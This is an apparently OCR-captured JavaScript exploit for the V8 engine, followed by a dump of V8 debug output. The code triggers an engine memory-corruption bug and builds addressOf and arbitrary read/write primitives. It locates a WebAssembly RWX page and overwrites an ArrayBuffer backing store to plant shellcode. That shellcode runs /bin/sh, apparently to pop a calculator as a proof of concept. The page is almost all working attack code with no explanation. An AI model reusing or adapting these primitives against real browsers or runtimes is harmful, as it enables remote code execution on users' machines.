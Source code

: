 ```js
  sum+=trigger(_ => _);
}
//%DebugPrint(double_array);
//%DebugPrint(wasmInstance);
//%DebugPrint(obj_array);

var vul=trigger(function() {
  object3.p9 = 1.1;
  Utils.InitEnumCache(object1);
  Utils.AllocateInOldSpace(0xc2, 4, 0, 0);
});
//console.log(vul);
//%DebugPrint(vul);
//alert(1);
function addressOf(obj){
    vul[0]=obj;
    return d2u(double_array[5])[0];
}
//console.log(addressOf(other))

function readaddr(addr){
    let temp=double_array[2];
    double_array[1]=u2d(0x00256e59,0x0006cd);//double
    double_array[2]=u2d(addr-8,0xdeec);
    let res=vul[0];
    double_array[1]=u2d(0x00256ed9,0x0006cd);//obj
    double_array[2]=temp;
    return ftoi(res);
}

function writeaddr(addr,data){
    let temp=double_array[2];
    double_array[1]=u2d(0x00256e59,0x0006cd);
    double_array[2]=u2d(addr-8,0xdeec);
    vul[0]=data;
    double_array[1]=u2d(0x00256ed9,0x0006cd);
    double_array[2]=temp;
}


let wasmInstance_demo=addressOf(wasmInstance)+0x48
console.log(wasmInstance_demo);

let rwx_addr=(readaddr(wasmInstance_demo));
console.log(rwx_addr);

var shellcode = [  
0x622fbb4899583b6an,0x48530068732f6e69n,0x480000632d68e789n,0x1ce852e689n,0x3d59414c50534944n,0x656d6f6e6720303an,0x616c75636c61632dn,0x8948575600726f74n,0x90050fe6n,0x28ffcb5377cfdb00n,0x0n,0x7fb4c1c7c083n,0x7fb4c1e96620n,0x7ffede705358n,0x100000000n,0x5619398be169n,0x5619398be270n,0xeec47372b188cf9bn,0x5619398be080n,0x7ffede705350n,0x0n,0x0n,0x1139cf921568cf9bn,0x11adf0fd31e6cf9bn,0x0n,0x0n,0x0n,0x1n,0x7ffede705358n,0x7ffede705368n,0x7fb4c1e98190n,0x0n,0x0n,0x5619398be080n,0x7ffede705350n,0x0n,0x0n,0x5619398be0aen
];

var data_buf = new ArrayBuffer(0x400);
var data_view = new DataView(data_buf);

//%DebugPrint(data_buf);
//%DebugPrint(data_view);
var bk_buf=addressOf(data_buf)+0x20;
writeaddr(bk_buf,itof(rwx_addr));

```

  [0]: 0x93700002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 4, attrs: [WEC]) @ Any
  [1]: 0x93700002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 3, attrs: [WEC]) @ Any
  [2]: 0x93700002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 2, attrs: [WEC]) @ Any
  [3]: 0x93700002a51: [String] in ReadOnlySpace: #d (const data field 3:s, p: 1, attrs: [WEC]) @ Any
  [4]: 0x93700002a61: [String] in ReadOnlySpace: #e (const data field 4:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0xf6100002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (data field 2:d, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any